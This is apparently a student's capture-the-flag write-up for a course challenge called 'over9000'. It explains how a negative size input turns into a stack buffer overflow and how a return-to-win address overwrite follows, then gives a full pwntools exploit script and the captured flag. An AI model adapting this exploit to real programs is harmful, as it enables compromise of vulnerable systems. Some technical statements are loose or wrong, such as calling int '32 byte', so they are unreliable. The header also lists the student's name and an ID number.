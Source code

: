 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "over9000"
- story:  Can you outsmart Vegeta's scouter and make it read a power level that's truly over 9000? 
- start docker:
```
docker build -t over9000 .
echo 'flag{fake_flag}' > flag
docker run --rm --mount "type=bind,src=$(pwd)/flag,dst=/flag" --cap-add SYS_ADMIN --security-opt apparmor=unconfined -p 1024:1024 -ti over9000
nc 127.0.0.1 1024
```
- the souce code includes:
```
void measure_power_level(int scouter_capacity) {
    char power_level[SCOUTER_DIGITS];
    printf("Vegeta: Let's see what Kakarot's power level is with this new scouter.\n");
    fgets(power_level, scouter_capacity - 1, stdin);
    printf("Vegeta: Hmph! It's only %s\n", power_level);
}
```
- we can input a 15bit number as string (15 chars + Null)
- we have int = 32 byte
    - max (positive) number: 0b0111...1111 (2^31 - 1)
    - max (negative) number: 0b1000...0000 (-2^31)
- we input max negative number = -2^31 = -2.147.483.648 (needs 11 chars + Null)
```
-2147483648
```
- the buffer "power_level" is only 16 Bytes, but we can write 2^31 -1 bytes if we want (or until newline) 
- there is no canary, we can just override the return address
- there is no PIE => 0x400000 aka no ASLR, so we now addresses beforehand
- => we can override return address with well-known address of its_over_9000, which will directly print the flag for us:)
- IDA says that is starts at 0x401176
- we overflow the buffer of function: measure_power_level, which stack looks like:
```
-0000000000000020 // Use data definition commands to manipulate stack variables and arguments.
-0000000000000020 // Frame size: 20; Saved regs: 8; Purge: 0
-0000000000000020
-0000000000000020     // padding byte
-000000000000001F     // padding byte
-000000000000001E     // padding byte
-000000000000001D     // padding byte
-000000000000001C     // padding byte
-000000000000001B     // padding byte
-000000000000001A     // padding byte
-0000000000000019     // padding byte
-0000000000000018     // padding byte
-0000000000000017     // padding byte
-0000000000000016     // padding byte
-0000000000000015     // padding byte
-0000000000000014     _DWORD var_14;
-0000000000000010     // padding byte
-000000000000000F     // padding byte
-000000000000000E     // padding byte
-000000000000000D     // padding byte
-000000000000000C     // padding byte
-000000000000000B     // padding byte
-000000000000000A     // padding byte
-0000000000000009     // padding byte
-0000000000000008     // padding byte
-0000000000000007     // padding byte
-0000000000000006     // padding byte
-0000000000000005     // padding byte
-0000000000000004     char s;
-0000000000000003     // padding byte
-0000000000000002     // padding byte
-0000000000000001     // padding byte
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```
- we need 4+8=12 Bytes padding and then just write return address, thats it
```
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'
conn = pwn.remote('tasks.ws24.softsec.rub.de', 33233)
#conn = pwn.remote('127.0.0.1', 1024)

#conn = pwn.process('./vuln')
#pwn.gdb.attach(conn)

# 4 byte buffer + rbp
shellcode = b'A' * (4+8) + pwn.p64(0x401176) + b'\n'
print(shellcode.hex()) 

conn.recvuntil(b'Nappa: Hey Vegeta, how many digits can your new scouter display?\n')
conn.sendline("-2147483648".encode())
conn.recvuntil("Vegeta: Let's see what Kakarot's power level is with this new scouter.\n")
conn.send(shellcode)
conn.interactive()
```
- flag: 
```
softsec{kQI5ODVWhM07lDbIdo-UDLKWC4zDUwYktQRB0VCicTOS0GCpL75UKptB--sgo24o}
```
